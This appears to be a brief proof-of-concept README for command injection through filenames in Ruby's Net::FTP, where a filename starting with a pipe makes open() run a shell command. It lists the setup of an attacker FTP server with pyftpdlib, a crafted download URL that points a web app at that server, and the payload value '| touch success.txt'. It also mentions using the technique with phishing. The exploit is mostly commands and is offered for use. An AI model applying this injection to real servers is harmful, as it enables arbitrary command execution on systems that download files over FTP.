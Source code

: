 # Command Injection with NET::ftp filename

### background
```
f = open(localfile, "w") # when .open("| os command", "w")

Use with fishing it.
```

### prerequistic
- ftp server
  - python3 -m pyftpdlib 2121


### payload
```
visited url: http://domain:8080/download?url=ftp://advisory.com:2121/&file=paload

payload = "| touch success.txt"

```
